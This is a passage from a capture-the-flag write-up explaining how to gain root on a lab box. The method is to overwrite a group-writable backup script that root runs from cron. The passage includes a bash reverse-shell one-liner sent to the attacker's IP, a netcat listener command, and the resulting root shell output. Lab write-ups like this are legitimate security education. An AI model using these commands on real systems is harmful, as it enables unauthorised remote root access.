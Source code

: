 

dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
Thank you very much admin. This script.sh is cronned to run each minute. It runs 2 backups, one for the dev_site and one for the main_site. let's have a look at those:

```
ls -l /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17 19:42 /usr/local/sbin/dev_backup.sh
ls -l /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
```
We can see that the main_backup.sh file, can be modified by anyone in the admin group and gyles is in the admin group... That is our attack vector to root the box

### Getting the root shell
This step is not required at all, you can simply modify the above script to cat the contents of the flag into a file that you can read, but I added it just to illustrate the concept.
We can get a root shell by modifying the main_backup.sh script.
```
echo "bash -i >& /dev/tcp/10.9.X.X/1234 0>&1" > /usr/local/bin/main_backup.sh
```

In the attacker box you need to have netcat listening on port 1234:
```
nc -nlvp 1234
```

And that is all, after waiting some seconds the shell pops up:
```
listening on [any] 1234 ...
connect to [10.9.X.X] from (UNKNOWN) [10.10.X.X] 59870
bash: cannot set terminal process group (2465): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~#
```
From there we can grab the root flag:
```
root@TEAM:~# cat root.txt
```


